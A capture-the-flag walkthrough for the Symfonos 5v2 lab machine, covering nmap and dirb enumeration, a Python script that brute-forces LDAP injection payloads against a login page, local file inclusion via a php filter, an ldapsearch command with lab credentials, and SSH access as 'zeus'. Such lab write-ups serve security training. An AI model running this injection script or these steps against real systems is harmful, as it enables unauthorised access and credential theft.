



SYMFONOS 5V2

## Methodology and summary
## Table of Contents
1. [Information Gathering]()
	1.1 [Discovery host]()
	1.2 [Service Enum]()
	1.3 [Web]()
		1.3,1 [Gobuster enum web content]()
		1.3.2 [Downloading and reading .log files]()

2. [Exploitation]()
	2.1 [Bypass login sqli]()
	2.2 [LFI (local file inclusion)  - using bash to generate payloads]()
		2.2.1 [Reverse shell]()

3. [Post exploitation]()
	3.1 [Remote forwarding with ssh]()
	3.2 [Web 8080]()
		3.2.1 [Gobuster enum web content]()
		3.2.2 [Python Pickle without exploit to get root]()
		3.2.3 [Python Pickle with coding exploit to get root]()

# 1 Information gathering
## 1.1 Discovery host
`nmap -Pn -F 192.168.196.1/24 -oN host_discovery.txt`


## 1.2 Service enum
`nmap -sV -sC -p- 192.168.196.128 -oN full_service_enum-sC.txt`


## 1.3 Web


### 1.3.1 Wappalyzer


## 1.3.2 Dirb enum web content
`dirb http://192.168.196.128`


# 2 Exploitation 
Since we have a login page with php (80) and ldap port (389), becomes deductible that the login is based on ldap authentication.

## 2.1 Ldap injection - burpsuit intruder 
https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/LDAP%20Injection/README.md

At one point it returns responses of different length.

## 2.1 Ldap injection - automation python script
```
# Script para ldap injection - byth22
#!/usr/bin/env python2.7
# -*- coding: utf-8 -*-

import requests
import re

def brute(target, headers):
    f = open("ldapi-payloads.txt", "r")
    for i in f:
        params = (
            ('username', i),
            ('password', 'teste'),
        )
            
        response = requests.get('http://'+target+'/admin.php', headers=headers, params=params, verify=False)

        try:
            re.findall(r'Invalid', response.content)[0]

        except IndexError:
            print ("Payload encontrada: %s" %i)


def main():
    target = '192.168.196.130'

    headers = {
        'Host': target,
        'User-Agent': 'Mozilla/5.0 (X11; Linux x86_64; rv:78.0) Gecko/20100101 Firefox/78.0',
        'Accept': 'text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,*/*;q=0.8',
        'Accept-Language': 'en-US,en;q=0.5',
        'Accept-Encoding': 'gzip, deflate',
        'Connection': 'close',
        'Referer': 'http://192.168.196.130/admin.php',
        'Upgrade-Insecure-Requests': '1',
    }
    brute(target, headers)


main()
````

## 2.2 Local file inclusion after login

A normal payload (/etc/passwd) works, and there was an attempt to read admin.php for analyse its code, but it is rendered. We dont need an rendered page, we need read it. For it was used php filter:

Ant it works.

Now we can decode and read it:


Let’s use these credentials to dump all the information using ldap.
```
ldapsearch -x -LLL -h 192.168.196.128 -D 'cn=admin,dc=symfonos,dc=local' -w qMDdyZh3cT6eeAWD -b 'dc=symfonos,dc=local'
```


## 2.2.1 SSH using zeus account
zeus:cetkKf4wCuHC9FET



# 3 Post-exploitation
https://gtfobins.github.io/gtfobins/dpkg/

LinEnum.sh returned some good informations:

